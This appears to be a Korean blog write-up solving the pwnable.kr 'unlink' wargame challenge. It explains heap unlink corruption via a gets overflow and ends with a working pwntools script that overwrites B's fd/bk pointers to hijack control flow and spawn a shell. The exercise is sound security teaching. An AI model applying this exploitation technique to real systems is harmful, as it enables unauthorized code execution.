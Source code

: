 ```yaml
---
layout: post
title: ! "[pwnable.kr] unlink"
excerpt_separator: <!--more-->
comments : true
tags:
  - pwnable
  - unlink
  - heap
  - chaem
---
```


pwnable.kr Toddler's Bottle의 마지막 문제인 unlink문제를 보겠습니다!

<!--more-->

문제를 먼저 풀어보고 싶은 사람은 아래 링크로 고고! 
<br>
[pwnable.kr](http://pwnable.kr/play.php)  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_01.PNG)  
<br>
우선 문제의 제목대로 unlink문제는 unlink corruption에 관한 문제입니당 후후  
문제 바이너리를 쭉 살펴봤을 때 보이는 특징은

```  

1. system함수를 주고있어요!!!  
shell을 따는 문제라는 것을 알 수 있으며, 나중에 요 함수를 호출할 날이 올 것을 고대하고 있으면 되겠네용  

2. 그 취약하기로 유명한 gets함수로 입력을 받고 있어요!!! overflow 냄새가 납니당 ㅎㅎ  

3. stack /heap 주소를 친절하게 leak해서 알려주고 있어요!!!  
주소를 다 알려주었으니 main함수의 ret을 shell주소로 덮을 일만 남았네용  

```

<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_02.PNG)  
<br>
일단, heap의 구조를 봅시다. fd와 bk의 위치에 주소값을 보면 A<->B<->C 이렇게 서로를 가리키 있는 것을 볼 수 있습니다.  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_03.PNG)  
참고 이미지 출처 : [Heap 영역에서 발생하는 취약점을 알아보자!](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)  
<br>
그렇지만 unlink함수를 실행한 후에는 A<->C만 가리키도록 바뀌게됩니다.  
unlink함수는 어떻게 생겼는지 함 봐봅시다!!
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_04.PNG)  
<br>
즉, B의 fd와 bk를 조작하여 B를 빼고 A와 C가 서로를 가리키 한다는 것을 알 수 있었죵!  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_05.PNG)  
<br>
그리고 위에서 한번 언급했듯이 gets를 사용함으로써 overflow가 발생합니다.  
a 16개까지는 괜찮았으나 17개부터 segmentation fault!
이 overflow를 이용해서 B의 fd와 bk까지 우리가 직접 조작할 수 있게되는 것입니다.  
문제에서 친절하게 stack과 heap의 주소를 leak해주기 때문에 이 주소를 그대로 받아오고, main함수의 return 값을 shell(system함수가 들어있는 함수)함수의 주소로 덮어주면 됩니다.  
하지만!!!! shell함수가 code영역을 사용하여 `쓰기권한`이 없기때문에 다른 방법을 더 모색해봐야합니다.  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_06.PNG)  
<br>
gdb로 main함수의 마지막 부분을 보면 우리가 일반적으로 알고있는 구조와는 다른 것을 볼 수 있습니다. ebp-4의 값을 ecx레지스터에 넣고 다시 ecx-0x4를 참조해 esp를 조정하기 때문에, 이 esp에서 eip를 설정할 수 있게 됩니다.  
unlink함수를 보면 ebp를 조작가능한 것을 볼 수 있습니다. 즉 unlink에서부 부터 ebp를 조작하여 최종적으로 esp를 컨트롤할 수 있게 되는것입니다.  
따라서, `ebp-4의 stack값을 덮어 쓰면, 주소가 가리키는 것보다 4bytes 앞부터 실행될 것입니다. 우리는 heap을 제어할 수 있으므로 그 시점에 shell의 주소를 쓰면 되는 것이죠!`  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_07.PNG)  
<br>
ebp-0x4의 주소와 문제에서 leak해주는 heap주소의 차이는 0x10입니다. 즉, ebp-0x4의 주소와 A의 시작주소가 0x10차이 나는 것입니다. (B->fd)  
또한, A->buf에서 16bytes를 계산하여야 B이지만, 이미 4bytes를 포함하여 계산한 것이므로 12byte로 계산해주면 됩니다. (B->bk)  
<br>
![]({{ site.baseurl }}/images/chaem/pwnable.kr/unlink_08.PNG)  
<br>

```  

#! usr/bin/env python
from pwn import *

ssh = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
s = ssh.process("/home/unlink/unlink")

s.recvuntil('here is stack address leak: ')
stack_addr = int(s.recv(10),16)
s.recvuntil('here is heap address leak: ')
heap_addr = int(s.recv(10),16)

log.success('Stack leak : ' + hex(stack_addr))
log.success('Heap leak : ' + hex(heap_addr))

payload = p32(0x080484eb) #call shell
payload +="A"*12
payload += p32(heap_addr+12) #B->bk
payload += p32(stack_addr+0x10) #B->fd

s.sendlineafter('get shell!\n', payload)
s.interactive()

```
